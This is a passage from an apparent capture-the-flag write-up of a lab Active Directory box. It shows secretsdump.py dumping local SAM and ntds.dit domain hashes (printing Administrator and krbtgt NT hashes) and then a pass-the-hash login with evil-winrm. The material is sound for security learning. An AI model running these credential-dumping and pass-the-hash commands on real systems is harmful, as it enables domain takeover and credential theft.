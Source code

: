 ## Step 16: Extracting Local Hashes

With the `SAM` and `SYSTEM` files downloaded, we used **Impacket’s `secretsdump.py`** to dump local account hashes:

```bash
secretsdump.py -sam SAM -system SYSTEM LOCAL
```

Result:
```output
[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)

Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d992faed38128ae85e95fa35868bb43:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


```

## Step 17: Dumping Domain Hashes from `ntds.dit`

We then dumped the **Active Directory credentials** from the `ntds.dit` file using:

```bash
secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
```

```output
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::
Guest:501:...:31d6cfe0d16ae931b73c59d7e0c089c0:::
BABYDC$:1000:...:fc94f27a251a81061a73f182785001ff:::
krbtgt:502:...:6da4842e8c24b99ad21a92d620893884:::
baby.vl\Jacqueline.Barnett:1104:...:20b8853f7aa61297bfbc5ed2ab34aed8:::
...
baby.vl\Caroline.Robinson:1115:...:2b576acbe6bcfda7294d6bd18041b8fe:::

```

We now have the **NT hash** for the **Domain Administrator**:

```output
ee4457ae59f1e3fbd764e33d9cef123d
```

## Step 18: Administrator Access

Using the Administrator NT hash with **Evil-WinRM**

```bash
evil-winrm -i 10.10.120.33 -u Administrator -H ee4457ae59f1e3fbd764e33d9cef123d


```
